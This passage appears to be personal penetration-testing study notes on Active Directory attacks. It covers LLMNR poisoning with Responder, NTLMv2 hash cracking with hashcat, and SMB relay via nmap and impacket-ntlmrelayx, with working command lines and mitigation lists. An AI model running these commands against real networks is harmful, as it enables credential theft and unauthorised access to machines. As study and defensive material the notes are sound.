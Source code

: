 		   responder.py -I eth0 -dwPv
	  ```
	  
	  * event occurs in windows 
	  * Obtain hashes and crack them using Hachcat
	  ```
	  hashcat -m 5600 ntlmhash.txt rockyou.txt
	  #-m 5600 for NTLMv2
	  #ntlmhash.txt contains the hashes
	  ```
	  * Mitigation : 
		  * Disable LLMNR and NTB-NS
		  * Require Network Access Control
		  * Use Strong Password Policy

## 2- SMB Relay
* Instead of cracking hashes gathered with responder, we can instead relay those hashes to specific machines and potentially gain access
* Requirements : 
	* SMB signing must be disabled on target
	* relayed user creds must be admin on machine

 * Steps: 
	 * Discover hosts with SMB signing disabled
```
nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24 -Pn
#we need to note down machines with 'message signing enabled but not required'

vim targets.txt
#add target IPs
```
  * Edit Responder config -turn SMB and HTTP off
```
vim /etc/responder/Responder.conf
#turn SMB, HTTP off
```
* Run Responder tool
```
sudo Responder -I eth0 -rdw
```
* Setup Relay
```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

#trigger connection in Windows machine
#by pointing it at the attacker machine

#-i option can be used for an interactive shell
```
* Event occurs in Windows Machine
* Credentials are captured and we get access to machine

* Mitigation : 
	* Enable SMB signing on all devices
	* Disable NTLM authentification on network
	* account tiering
	* Local admin restriciton (to prevent lateral movement)
